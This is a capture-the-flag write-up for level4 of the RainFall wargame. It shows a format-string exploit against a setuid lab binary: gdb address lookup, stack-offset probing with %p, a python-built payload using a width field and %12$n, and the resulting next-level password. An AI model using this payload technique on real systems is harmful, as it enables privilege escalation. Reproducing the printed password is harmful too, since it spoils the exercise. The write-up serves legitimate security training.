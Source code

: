 <p align="justify">

level4 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

level4 rights:
```Shell
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```

This binary has the same behaviour as the other one.
Decompiling with Ghidra on https://dogbolt.org/ shows the main difference with the previous executable: `m` is compared to a value much bigger than the size of the buffer (0x1025544, which is 16930116 in decimal for a buffer of size 520). Also, if the condition is met, we don't get a shell but the password itself.

We will try to apply the same method, but we must find a way to bypass the size problem.
First, we get `m` address from gdb:
```Shell
0x0804848d <+54>:    mov    0x8049810,%eax
0x08048492 <+59>:    cmp    $0x1025544,%eaxx
```
This is the address of `m` converted into Little Endian: `\x10\x98\x04\x08`.

Then, we get our buffer's position on the stack:
```Shell
level4@RainFall:~$ ./level4
AAAA %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff794 0xb7fd0ff4 (nil) (nil) 0xbffff758 0x804848d 0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```
Now we know it starts at the 12th index.

The only thing missing from our payload is the syntax to bypass the size limitation. With a bit of research, we found out that using the optional width field with `%d` allows us to print the correct number of characters before reaching `%n`.

Our payload will be:
```Shell
level4@RainFall:~$ python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")' > /tmp/payload4
```

And the result is:
```Shell
level4@RainFall:~$ cat /tmp/payload4 | ./level4
[...]
-1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
Note that there is no need to keep stdin open, as we do not launch `/bin/sh` but a simple `cat` command. The extra number corresponds to `%d`.

</p>